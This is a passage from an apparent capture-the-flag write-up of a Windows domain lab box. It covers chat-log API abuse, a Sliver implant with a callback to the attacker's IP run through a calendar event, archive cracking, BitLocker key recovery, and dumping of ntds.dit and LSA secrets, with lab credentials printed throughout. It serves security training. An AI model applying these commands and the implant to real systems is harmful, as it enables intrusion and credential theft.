
```
HTTP/1.1 200 OK
Content-Length: 459
Content-Type: application/json; charset=utf-8
Server: Microsoft-HTTPAPI/2.0
Date: Sun, 01 Sep 2024 17:41:07 GMT

{"rows":[{"room":"Chiefs_Marketing_chat","roomusers":"O.martinez|0,A.walker|0"},{"room":"Dev_Chat","roomusers":"Admin|0,M.harris|0,K.turner|0,Developer_01|0,Developer_02|0,Developer_03|0"},{"room":"General_chat","roomusers":"Admin|0,D.anderson|0,L.clark|0,M.harris|0,O.martinez|0,A.walker|0,K.turner|0,E.rodriguez|0,winrm_svc|0,Developer_01|0,Developer_02|0,Developer_03|0"},{"room":"Marketing_Team_chat","roomusers":"D.anderson|0,L.clark|0"}],"success":true}
```

## Privilege Escalation to O.martinez

`Bushidosan` managed to put together the `roomkey` and the `date` values to extract the `conversation` of the room `Chiefs_Marketing_chat`. In the output we found the `password` for `O.martinez`.

```c
GET /api/chatrooms/logs?roomkey=20240220014618@conference.com&fromdate=2022/01/20&todate=2024/09/01 HTTP/1.1
Host: localhost:14125
Cache-Control: max-age=0
sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="126"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Length: 0
API-KEY: 558R501T5I6024Y8JV3B7KOUN1A518GG


```


```c
HTTP/1.1 200 OK
Content-Length: 11375
Content-Type: application/json; charset=utf-8
Server: Microsoft-HTTPAPI/2.0
Date: Sun, 01 Sep 2024 19:08:44 GMT

{"success":true,"logs":"\u003cstyle\u003e\n*, *:before, *:after {\nbox-sizing: border-box;\n}\na {\ntext-decoration:none;\ncolor: black;\n}\na:link,a:visited,a:hover,a:active  {\ncolor: black;\n}\n.room_log{\nfont-family: \"Open Sans\" ,Segoe UI,Calibri,Candara,Arial,sans-serif;\nfont-size: 13px;\nfont-weight: 400;\ncolor: #333;\nbackground-color: #fff;\n}\n.room_log p {\nmargin: 0px;\npadding: 0px;\nline-height: 20px;\n}\n.room_log #greybk {\nbackground-color: #f7f7f7;\nclear: both;\nwidth: 100%;\nfloat: left;\n}\n.room_log #whitebk {\nbackground-color: #fcfcfc;\nclear: both;\nwidth: 100%;\nfloat: left;\n}\n.room_log .nickname {\nclear: both;\ncolor: #A1A1A1;\nfloat: left;\nwidth: 70%;\n}\n.room_log .currentusernickname {\nclear: both;\ncolor: #319aff;\nfloat: left;\nwidth: 70%;\n}\n.room_log .msg_time, .room_log .msg_timeorange {\npadding: 2px 0p 0px 5px;\nclear: right;\nfloat: right;\nfont-size: 12px;\ncolor: #A1A1A1;\nwidth: 30%;\ntext-align: right;\n}\n.room_log .msg_timeorange {\ncolor: #f98c01;\n}\n.room_log .msg_body {\ncolor: #000000;\nfloat: left;\npadding: 0px 0px 5px 5px;\nwidth: 96%;\noverflow:auto;\n}\n.room_log .msg_leftgc{\ncolor: #A1A1A1;\nfont-size: 12px;\nfloat: right;\nfont-weight: bold;\npadding-bottom: 5px;\n}\n#whitebk.msg_leftgc, #greybk.msg_leftgc{\ntext-align:right;\n}\n.room_log .msg_signout {\ncolor: #0072c6;\nfloat: right;\nfont-weight: bold;\npadding-bottom: 5px;\n}\n.room_log .unreadmsg {\nfloat: right;\npadding: 5px 6px 0px 0px;\nwidth: 18px;\n}\n.room_log .datefont {\nfont-size: 17px;\nfont-weight: bold;\ncolor: #686667;\ntext-align: center;\nword-wrap: break-word;\n}\n.room_log .monthfont {\nfont-size: 12px;\nfont-weight: bold;\ncolor: #686667;\ntext-align: left;\nword-wrap: break-word;\n}\n.room_log .datebox {\nwidth: 38px;\nbackground-color: #e0e0e0;\ntext-align: center;\ntext-color: #686667;\nword-wrap: break-word;\nfloat: right;\n}\n.room_log .dashedline {\nmargin-top: 26px;\nborder-top: 1px dashed #d8d8d8;\nbackground-color: #FFFFFF;\nheight: 1px;\nwidth: 100%;\n}\n.room_log .highlighttext {\nbackground-color: lime;\nfont-weight: bold;\ntext-color: white;\n}\n.room_log .logfromname {\npadding-top: 4px;\nvertical-align: middle;\ncolor: #397dba;\nclear: both;\ndisplay: box;\n}\n.room_log .logdateorange {\ncolor: #ff9104;\nfont-size: 11px;\nfont-weight: italic;\nfloat: left;\npadding-top: 5px;\nclear: both;\nheight: 25px;\nwidth: 50%;\n}\n.room_log img.middle {\nvertical-align: middle;\n}\n.room_log img.bottom {\nvertical-align: bottom;\n}\n/*** Bullets ***/\n.room_log .bullet {\nfloat: left;\nposition: relative;\nwidth: 5px;\nheight: 15px;\nmargin: 0px 0px 0px 15px;\noverflow: hidden;\nclear: both;\n}\n.room_log .bullet img {\nvertical-align: middle;\nposition: absolute;\ntop: 60%;\nleft: 0px;\n}\n.room_log .bullet img.unread {\nmargin-left: -6px;\n}\n.room_log .bullet img.non-delivered {\n}\n.room_log .bullet img.read {\nmargin-left: -12px;\n}\n.room_log .sep {\npadding: 0 0 0 0;\nclear: both;\n}\n/*** End Bullets ***/\n/*** Emotions ***/\n.room_log .emotion {\nwidth: 16px;\nheight: 16px;\noverflow: hidden;\nposition: relative;\ndisplay: inline-block;\n}\n.room_log .emotion img {\nposition: absolute;\nleft: -5px;\ntop: -5px;\n}\n.room_log .e_whistle {\nwidth: 17px;\nheight: 17px;\n}\n.room_log .e_brb {\nwidth: 17px;\nheight: 17px;\n}\n.room_log .e_secret {\nwidth: 19px;\nheight: 19px;\n}\n/*First Row*/\n.room_log .emotion img.smile {\n}\n.room_log .emotion img.very_happy {\nmargin-left: -25px;\n}\n.room_log .emotion img.baring_teeth {\nmargin-left: -50px;\n}\n.room_log .emotion img.winking {\nmargin-left: -75px;\n}\n.room_log .emotion img.shocked {\nmargin-left: -100px;\n}\n.room_log .emotion img.omg {\nmargin-left: -125px;\n}\n.room_log .emotion img.tonque_out {\nmargin-left: -150px;\n}\n.room_log .emotion img.nerd {\nmargin-left: -175px;\n}\n/*Second Row*/\n.room_log .emotion img.angry {\nmargin-top: -25px;\n}\n.room_log .emotion img.ashamed {\nmargin-left: -25px;\nmargin-top: -25px;\n}\n.room_log .emotion img.i_dont_know {\nmargin-left: -50px;\nmargin-top: -25px;\n}\n.room_log .emotion img.confused {\nmargin-left: -75px;\nmargin-top: -25px;\n}\n.room_log .emotion img.crying {\nmargin-left: -100px;\nmargin-top: -25px;\n}\n.room_log .emotion img.sad {\nmargin-left: -125px;\nmargin-top: -25px;\n}\n.room_log .emotion img.dont_tell_anyone {\nmargin-left: -150px;\nmargin-top: -25px;\n}\n.room_log .emotion img.bye {\nmargin-left: -175px;\nmargin-top: -25px;\n}\n/*Third Row*/\n.room_log .emotion img.thinking {\nmargin-top: -51px;\n}\n.room_log .emotion img.sorry {\nmargin-left: -25px;\nmargin-top: -51px;\n}\n.room_log .emotion img.sleepy {\nmargin-left: -50px;\nmargin-top: -51px;\n}\n.room_log .emotion img.sick {\nmargin-left: -75px;\nmargin-top: -51px;\n}\n.room_log .emotion img.cool {\nmargin-left: -100px;\nmargin-top: -51px;\n}\n.room_log .emotion img.angel {\nmargin-left: -125px;\nmargin-top: -51px;\n}\n.room_log .emotion img.devil {\nmargin-left: -150px;\nmargin-top: -51px;\n}\n.room_log .emotion img.party {\nmargin-left: -175px;\nmargin-top: -51px;\n}\n/*Forth Row*/\n.room_log .emotion img.whistle {\nmargin-top: -78px;\n}\n.room_log .emotion img.brb {\nmargin-left: -25px;\nmargin-top: -78px;\n}\n.room_log .emotion img.secret {\nmargin-left: -50px;\nmargin-top: -78px;\n}\n.room_log .emotion img.headache {\nmargin-left: -75px;\nmargin-top: -78px;\n}\n.room_log .emotion img.gift {\nmargin-left: -100px;\nmargin-top: -78px;\n}\n.room_log .emotion img.birthday_cake {\nmargin-left: -125px;\nmargin-top: -78px;\n}\n.room_log .emotion img.heart {\nmargin-left: -150px;\nmargin-top: -78px;\n}\n.room_log .emotion img.broken_heart {\nmargin-left: -175px;\nmargin-top: -78px;\n}\n/*Fifth Row*/\n.room_log .emotion img.star {\nmargin-top: -106px;\n}\n.room_log .emotion img.clock {\nmargin-left: -25px;\nmargin-top: -103px;\n}\n.room_log .emotion img.coffee {\nmargin-left: -50px;\nmargin-top: -105px;\n}\n.room_log .emotion img.food {\nmargin-left: -75px;\nmargin-top: -105px;\n}\n.room_log .emotion img.money {\nmargin-left: -100px;\nmargin-top: -105px;\n}\n.room_log .emotion img.clapping_hands {\nmargin-left: -125px;\nmargin-top: -105px;\n}\n.room_log .emotion img.fingers_crossed {\nmargin-left: -150px;\nmargin-top: -105px;\n}\n.room_log .emotion img.snail {\nmargin-left: -175px;\nmargin-top: -105px;\n}\n/*Sixth Row*/\n.room_log .emotion img.rose {\nmargin-top: -130px;\n}\n.room_log .emotion img.wilted_rose {\nmargin-left: -25px;\nmargin-top: -130px;\n}\n.room_log .emotion img.play {\nmargin-left: -50px;\nmargin-top: -130px;\n}\n.room_log .emotion img.idea {\nmargin-left: -75px;\nmargin-top: -130px;\n}\n.room_log .emotion img.beer {\nmargin-left: -100px;\nmargin-top: -130px;\n}\n.room_log .emotion img.phone {\nmargin-left: -125px;\nmargin-top: -130px;\n}\n.room_log .emotion img.thumbs_up {\nmargin-left: -150px;\nmargin-top: -130px;\n}\n.room_log .emotion img.thumbs_down {\nmargin-left: -175px;\nmargin-top: -130px;\n}\n/*** End Emotions ***/\n#subject{\nborder:1px solid #A2E5FF;\nbackground-color:#C7EDFC;\npadding:5px 10px;\nwidth:100%;\nFONT-FAMILY: Segoe UI;\nfont-size:12px;\n}\n.notify_container{\nfloat:left;\nclear:both;\nwidth:100%;\npadding:10px 0px;\n}\n.notify{\nfloat:left;\npadding:5px 0px 5px 5px;\nbackground-color:#C7EDFC;\ncolor:Black;\nwidth:100%;\n}\n.notify .nickname{\ncolor:#000000;\n}\n#greybk.notify_container, #whitebk.notify_container{\npadding-top:0px;            \n}\n.reply {\nborder-left:3px solid green;\npadding-left:5px;\nmargin-top:2px;\nmargin-bottom:5px;\nbackground-color:#f5f5f5;\nfloat:left;\nwidth:100%;\n}\n.reply_name {\ncolor:green;\nfont-size: 14px;\n}\n.reply_message {\ntext-overflow: ellipsis;\nwidth: 100%;\nheight:20px;\nwhite-space: nowrap;\noverflow: hidden;\ntext-overflow: ellipsis;\n}\n.reply_file {\nfloat:left;\ndisplay:none;\nheight:40px;\nvertical-align:middle; \ntext-align:center;\nposition:absolute;\nleft: 10px;\ntop: 2px;\n}\n.reply_file img {\nposition: absolute;\nmargin: auto;\ntop: 0;\nleft: 0;\nright: 0;\nbottom: 0;\n}\n.reply_container{\nfloat:left;\nwidth:100%;\nbox-sizing: border-box;\n}\n.reply_container .msg_time {\nfont-size: 10px;\npadding-right: 10px;\npadding-top: 3px;\n}\n           \u003c/style\u003e\u003cdiv class=\u0027room_log\u0027\u003e\u003cdiv  class=\u0027logdateorange\u0027\u003e20/02/2024\u003c/div\u003e\u003cdiv class=\u0027datebox\u0027\u003e \u003cspan class=\u0027datefont\u0027\u003e20\u003cbr\u003e\u003c/span\u003e\u003cspan class=\u0027monthfont\u0027\u003eFeb\u003c/span\u003e\u003c/div\u003e\u003cbr\u003e\u003cbr\u003e\u003cdiv id=\u0027greybk\u0027\u003e\u003cdiv  class=\u0027logfromName\u0027\u003e\u003cimg src=\u0027/temp/hash_dark_20.png\u0027 class=\u0027middle\u0027 title=\u0027\u0027   /\u003e   Chiefs_Marketing_chat:  A.walker, O.martinez\u003c/div\u003e\u003c/div\u003e\u003cbr\u003e\u003cdiv id=\u0027greybk\u0027\u003e\u003cspan class=\u0027nickname\u0027 \u003eA.walker Says: \u003c/span\u003e\u003cdiv class=\u0027msg_time\u0027\u003e02:05 AM\u003c/div\u003e\u003cbr /\u003e\u003cdiv  class=\u0027bullet\u0027\u003e\u003cimg src=\u0027/Temp/bullets.png\u0027 class=\u0027read\u0027 title=\u0027\u0027 /\u003e\u003c/div\u003e\u003cdiv class=\u0027msg_body\u0027 \u003eHey, hope you\u0027re doing well! What tasks do you have on your plate today?\u003c/div\u003e\u003cbr /\u003e\u003c/div\u003e\u003cdiv id=\u0027greybk\u0027\u003e\u003cspan class=\u0027nickname\u0027 \u003eO.martinez Says: \u003c/span\u003e\u003cdiv class=\u0027msg_time\u0027\u003e02:06 AM\u003c/div\u003e\u003cbr /\u003e\u003cdiv  class=\u0027bullet\u0027\u003e\u003cimg src=\u0027/Temp/bullets.png\u0027 class=\u0027read\u0027 title=\u0027\u0027 /\u003e\u003c/div\u003e\u003cdiv class=\u0027msg_body\u0027 \u003eThanks! I\u0027m working on the new marketing campaign and reviewing the budget for Q4. How about you?\u003c/div\u003e\u003cbr /\u003e\u003c/div\u003e\u003cdiv id=\u0027greybk\u0027\u003e\u003cspan class=\u0027nickname\u0027 \u003eA.walker Says: \u003c/span\u003e\u003cdiv class=\u0027msg_time\u0027\u003e02:08 AM\u003c/div\u003e\u003cbr /\u003e\u003cdiv  class=\u0027bullet\u0027\u003e\u003cimg src=\u0027/Temp/bullets.png\u0027 class=\u0027read\u0027 title=\u0027\u0027 /\u003e\u003c/div\u003e\u003cdiv class=\u0027msg_body\u0027 \u003eSounds busy! By the way, I need to check something in your account. Could you share your username password?\u003c/div\u003e\u003cbr /\u003e\u003c/div\u003e\u003cdiv id=\u0027greybk\u0027\u003e\u003cspan class=\u0027nickname\u0027 \u003eO.martinez Says: \u003c/span\u003e\u003cdiv class=\u0027msg_time\u0027\u003e02:09 AM\u003c/div\u003e\u003cbr /\u003e\u003cdiv  class=\u0027bullet\u0027\u003e\u003cimg src=\u0027/Temp/bullets.png\u0027 class=\u0027read\u0027 title=\u0027\u0027 /\u003e\u003c/div\u003e\u003cdiv class=\u0027msg_body\u0027 \u003esure!\u003c/div\u003e\u003cbr /\u003e\u003c/div\u003e\u003cdiv id=\u0027greybk\u0027\u003e\u003cspan class=\u0027nickname\u0027 \u003eO.martinez Says: \u003c/span\u003e\u003cdiv class=\u0027msg_time\u0027\u003e02:09 AM\u003c/div\u003e\u003cbr /\u003e\u003cdiv  class=\u0027bullet\u0027\u003e\u003cimg src=\u0027/Temp/bullets.png\u0027 class=\u0027read\u0027 title=\u0027\u0027 /\u003e\u003c/div\u003e\u003cdiv class=\u0027msg_body\u0027 \u003eO.martinez : m@rtinez@1996!\u003c/div\u003e\u003cbr /\u003e\u003c/div\u003e\u003c/div\u003e"}
```

| Username   | Password       |
| ---------- | -------------- |
| O.martinez | m@rtinez@1996! |

One part of the `privilege escalation` was down. The second part required us to place a `malicious binary` on our `local machine` and `also on the box` in the `same exact directory` to get us matching `folder paths`. We used `sliver` for this steps.

- [https://github.com/BishopFox/sliver](https://github.com/BishopFox/sliver)

```c
┌──(kali㉿kali)-[~]
└─$ sliver
Connecting to localhost:31337 ...
[*] Loaded 21 aliases from disk
[*] Loaded 141 extension(s) from disk

    ███████╗██╗     ██╗██╗   ██╗███████╗██████╗
    ██╔════╝██║     ██║██║   ██║██╔════╝██╔══██╗
    ███████╗██║     ██║██║   ██║█████╗  ██████╔╝
    ╚════██║██║     ██║╚██╗ ██╔╝██╔══╝  ██╔══██╗
    ███████║███████╗██║ ╚████╔╝ ███████╗██║  ██║
    ╚══════╝╚══════╝╚═╝  ╚═══╝  ╚══════╝╚═╝  ╚═╝

All hackers gain first strike
[*] Server v1.5.42 - 85b0e870d05ec47184958dbcb871ddee2eb9e3df
[*] Welcome to the sliver shell, please type 'help' for options

[*] Check for updates with the 'update' command

sliver >
```

```c
sliver > generate --mtls 10.10.14.72 --os windows --arch amd64 --format exe --disable-sgn --save /media/sf_share/

[*] Generating new windows/amd64 implant binary
[*] Symbol obfuscation is enabled
[*] Build completed in 29s
[*] Implant saved to /media/sf_share/THUNDERING_AGGRESSION.exe
```

```c
sliver > mtls

[*] Starting mTLS listener ...

[*] Successfully started job #1
```

After the binary was created we moved it to our `Windows` machine to the `C:\temp` folder. Then we uploaded the `same binary` to the `exact same folder on the box`.

```c
*Evil-WinRM* PS C:\temp> upload THUNDERING_AGGRESSION.exe
                                        
Info: Uploading /media/sf_cybersecurity/notes/HTB/Machines/Infiltrator/serve/THUNDERING_AGGRESSION.exe to C:\temp\THUNDERING_AGGRESSION.exe
                                        
Data: 20917588 bytes of 20917588 bytes copied
                                        
Info: Upload successful!
```

With the preparation done it was necessary to `create` a `new event` similar to the existing ones in the `calendar` of `O.martinez`. We chose `Run Application`, selected the `binary` from our `local path` expecting the application on the box trying to open or execute and therefore triggering it. The `time` on `our machine` was perfectly fine to setup the event.


After we saved the event, we logged out and logged back in as `K.turner` to verify if something would happen and indeed `O.martinez` came online and we got our callback!


```c
[*] Session 4d453bf4 THUNDERING_AGGRESSION - 10.129.231.126:63264 (dc01) - windows/amd64 - Mon, 02 Sep 2024 12:17:43 CEST
```

## Pivoting (O.martinez)

We dropped into a shell and did a quick check on the permissions.

```c
sliver (THUNDERING_AGGRESSION) > shell

? This action is bad OPSEC, are you an adult? Yes

[*] Wait approximately 10 seconds after exit, and press <enter> to continue
[*] Opening shell tunnel (EOF to exit) ...

[*] Started remote shell with pid 7836

PS C:\Windows\system32>
```

```c
PS C:\Windows\system32> whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeMachineAccountPrivilege     Add workstations to domain     Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
PS C:\Windows\system32> whoami /all
whoami /all

USER INFORMATION
----------------

User Name              SID                                           
====================== ==============================================
infiltrator\o.martinez S-1-5-21-2606098828-3734741516-3625406802-1106


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                            Attributes                                        
========================================== ================ ============================================== ==================================================
Everyone                                   Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Desktop Users               Alias            S-1-5-32-555                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                   Group used for deny only                          
BUILTIN\Certificate Service DCOM Access    Alias            S-1-5-32-574                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\REMOTE INTERACTIVE LOGON      Well-known group S-1-5-14                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                   Well-known group S-1-5-4                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
LOCAL                                      Well-known group S-1-2-0                                        Mandatory group, Enabled by default, Enabled group
INFILTRATOR\Chiefs Marketing               Group            S-1-5-21-2606098828-3734741516-3625406802-1111 Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1                                       Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192                                                                                      


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeMachineAccountPrivilege     Add workstations to domain     Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

Since everything was pretty much build around the `Output Messenger` application, we searched the `Received Files` folder and found a `network_capture_2024.pcapng` file.

```c
sliver (THUNDERING_AGGRESSION) > ls

C:\Users\O.martinez\AppData\Roaming\Output Messenger\FAAA\Received Files\203301 (1 item, 285.4 KiB)
===================================================================================================
-rw-rw-rw-  network_capture_2024.pcapng  285.4 KiB  Fri Feb 23 17:10:21 -0700 2024
```

```c
sliver (THUNDERING_AGGRESSION) > download network_capture_2024.pcapng

[*] Wrote 292244 bytes (1 file successfully, 0 files unsuccessfully) to /home/kali/network_capture_2024.pcapng
```

## Analyzing PCAP File

We searched the `.pcapng` file and found the `password` for `O.martinez` inside a `HTTP stream`.


| Password           |
| ------------------ |
| M@rtinez_P@ssw0rd! |

We digged deeper and figured out that `O.martinez` downloaded a `Bitlocker-backup.7z` file.


Then we exported the file and started investigating it.



## Cracking the Password of the 7z Archive

As we tried to extract the files from the archive, we got prompted to insert a password.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ 7z x BitLocker-backup.7z   

7-Zip 24.07 (x64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-06-19
 64-bit locale=C.UTF-8 Threads:4 OPEN_MAX:1024

Scanning the drive for archives:
1 file, 209327 bytes (205 KiB)

Extracting archive: BitLocker-backup.7z
--
Path = BitLocker-backup.7z
Type = 7z
Physical Size = 209327
Headers Size = 271
Method = LZMA2:20 7zAES
Solid = -
Blocks = 1

    
Enter password (will not be echoed):
```

To crack the password we used `7z2john` to create a usable format for `John the Ripper`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ 7z2john BitLocker-backup.7z > BitLocker-backup.hash
ATTENTION: the hashes might contain sensitive encrypted data. Be careful when sharing or posting these hashes
```

And after a few seconds we got the `password` for the `archive`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ sudo john BitLocker-backup.hash --wordlist=/usr/share/wordlists/rockyou.txt 
[sudo] password for kali: 
Using default input encoding: UTF-8
Loaded 1 password hash (7z, 7-Zip archive encryption [SHA256 256/256 AVX2 8x AES])
Cost 1 (iteration count) is 524288 for all loaded hashes
Cost 2 (padding size) is 8 for all loaded hashes
Cost 3 (compression type) is 2 for all loaded hashes
Cost 4 (data length) is 209048 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
zipper           (BitLocker-backup.7z)     
1g 0:00:01:41 DONE (2024-09-02 17:51) 0.009867g/s 54.62p/s 54.62c/s 54.62C/s cadillac..marino
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

| Password |
| -------- |
| zipper   |

## BitLocker Recovery Key

We used the previously cracked password to extract the files and found a `Microsoft account _ Clés de récupération BitLocker.html` file.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ 7z x BitLocker-backup.7z                                                

7-Zip 24.07 (x64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-06-19
 64-bit locale=C.UTF-8 Threads:4 OPEN_MAX:1024

Scanning the drive for archives:
1 file, 209327 bytes (205 KiB)

Extracting archive: BitLocker-backup.7z
--
Path = BitLocker-backup.7z
Type = 7z
Physical Size = 209327
Headers Size = 271
Method = LZMA2:20 7zAES
Solid = -
Blocks = 1

    
Enter password (will not be echoed):
Everything is Ok

Folders: 1
Files: 1
Size:       792371
Compressed: 209327
```

```c
┌──(kali㉿kali)-[/media/…/Machines/Infiltrator/files/BitLocker-backup]
└─$ ls -la
total 776
drwxrwx--- 1 root vboxsf    116 Feb 19  2024  .
drwxrwx--- 1 root vboxsf    844 Sep  2 17:49  ..
-rwxrwx--- 1 root vboxsf 792371 Feb 20  2024 'Microsoft account _ Clés de récupération BitLocker.html'
```

The `.html` file contained a `BitLocker Recovery Key`.


| BitLocker Recovery Key                                  |
| ------------------------------------------------------- |
| 650540-413611-429792-307362-466070-397617-148445-087043 |

## Access to Backup Credentials

From `BloodHound` we knew that `O.martinez` was able to login via the `Remote Desktop Protocol (RDP)` on `DC01.INFILTRATOR.HTB`. We used `xfreerdp` and found ourselves on the `Desktop` of `O.martinez` with a few `applications` already opened.

```c
┌──(kali㉿kali)-[~]
└─$ xfreerdp /v:10.129.231.126 /u:'O.martinez' /p:'M@rtinez_P@ssw0rd!' /dynamic-resolution /cert-ignore +clipboard
```


Following the process of `restoring` some `backup credentials` prompted us to unlock a `BitLocker drive` which contained another `7-zip` archive called `Backup_Credentials.7z`.


To not mess around with restoring any credentials, we clicked on the `Windows symbol` in the `lower left corner` and then on the `pictures icon`. From there we moved to the `BitLocker encrypted disk`, then to `E:\Windows Server 2012 R2 - Backups\Users\Administrator\Documents` and copied the `Backup_Credentials.7z` to `C:\temp\` and then downloaded it using `Evil-WinRM`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ evil-winrm -i dc01.infiltrator.htb -u 'winrm_svc' -p 'WinRm@$svc^!^P'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
```

```c
*Evil-WinRM* PS C:\temp> download Backup_Credentials.7z
                                        
Info: Downloading C:\temp\Backup_Credentials.7z to Backup_Credentials.7z
                                        
Info: Download successful!
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ 7z x Backup_Credentials.7z 

7-Zip 24.07 (x64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-06-19
 64-bit locale=C.UTF-8 Threads:4 OPEN_MAX:1024

Scanning the drive for archives:
1 file, 2055137 bytes (2007 KiB)

Extracting archive: Backup_Credentials.7z
--
Path = Backup_Credentials.7z
Type = 7z
Physical Size = 2055137
Headers Size = 250
Method = LZMA2:24
Solid = +
Blocks = 1

Everything is Ok                  

Folders: 2
Files: 3
Size:       48513024
Compressed: 2055137
```

After extracting the archive we received a `ntds.dit` file and backup copies of the `Registry` entries of `SYSTEM` and `SECURITY`.

```c
┌──(kali㉿kali)-[/media/…/Machines/Infiltrator/files/Active Directory]
└─$ ls
ntds.dit
```

```c
┌──(kali㉿kali)-[/media/…/Machines/Infiltrator/files/registry]
└─$ ls -la
total 12544
drwxrwx--- 1 root vboxsf       28 Feb 25  2024 .
drwxrwx--- 1 root vboxsf      934 Sep  2 19:05 ..
-rwxrwx--- 1 root vboxsf   262144 Feb 25  2024 SECURITY
-rwxrwx--- 1 root vboxsf 12582912 Feb 25  2024 SYSTEM
```

## Decrypting SYSTEM / SECURITY

Using the provided files put us in the position of `extracting` a `password`.

```c
┌──(kali㉿kali)-[/media/…/Machines/Infiltrator/files/registry]
└─$ impacket-secretsdump -system SYSTEM -security SECURITY LOCAL
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Target system bootKey: 0xd7e7d8797c1ccd58d95e4fb25cb7bdd4
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:4b90048ad6028aae98f66484009266d4efa571d48a8aa6b771d69d20aba16ddb7e0a0ffe9378a1ac7b31a812f0760fe2a8ce66ff6a0ff772155a29baa59b4407a95a920d0904cba6f8b19b6393f1551a476f991bbedaa66880e60611482a81b31b34c55c77d0e0d1792e3b18cdc9d39e0b776e7ef082399b096aaa2e8d93eb1f0340fd5f6e138da2580d1f581ff9426dce99a901a1bf88ad3f19a5bc4ce8ff17fdbb0a04bb29f13dc46177a6d8cd61bf91f8342e33b5362daecbb888df22ce467aa9f45a9dc69b03d116eeac89857d17f3f44f4abc34165b296a42b3b3ff5ab26401b5734fab6ad142d7882715927e45
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:fe4767309896203c581b9fc3c5e23b00
[*] DefaultPassword 
(Unknown User):ROOT#123
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x81f5247051ff9535ad8299f0efd531ff3a5cb688
dpapi_userkey:0x79d13d91a01f6c38437c526396febaf8c1bc6909
[*] NL$KM 
 0000   2E 8A EC D8 ED 12 C6 ED  26 8E B0 9B DF DA 42 B7   ........&.....B.
 0010   49 DA B0 07 05 EE EA 07  05 02 04 0E AD F7 13 C2   I...............
 0020   6C 6D 8E 19 1A B0 51 41  7C 7D 73 9E 99 BA CD B1   lm....QA|}s.....
 0030   B7 7A 3E 0F 59 50 1C AD  8F 14 62 84 3F AC A9 92   .z>.YP....b.?...
NL$KM:2e8aecd8ed12c6ed268eb09bdfda42b749dab00705eeea070502040eadf713c26c6d8e191ab051417c7d739e99bacdb1b77a3e0f59501cad8f1462843faca992
[*] Cleaning up...
```

| Password |
| -------- |
| ROOT#123 |

## Decrypting NTDS.DIT

Unfortunately the password didn't matched any known account and so we proceeded with the `ntds.dit` file using `ntdsdotsqlite`. By the way. It is highly recommended installing it inside a `virtual environment` to not break other tools.

- [https://github.com/almandin/ntdsdotsqlite](https://github.com/almandin/ntdsdotsqlite)

```c
┌──(kali㉿kali)-[/media/…/Machines/Infiltrator/files/Active Directory]
└─$ ntdsdotsqlite ntds.dit --system ../registry/SYSTEM -o NTDS.sqlite
100%|█████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████| 3823/3823 [00:00<00:00, 7110.81it/s]
```

## Analysing Output of decrypted NTDS.DIT

We opened the `sqlite3` database using `sqlitebrowser` and took a closer look on the `user_accounts` table in which we found the `password` and `NT hash` for `lan_managment`. Please notice that there is a typo on the `username`!


| Username      | Password      |
| ------------- | ------------- |
| lan_managment | l@n_M@an!1331 |

## Reading GMSA Password of infiltrator_svc

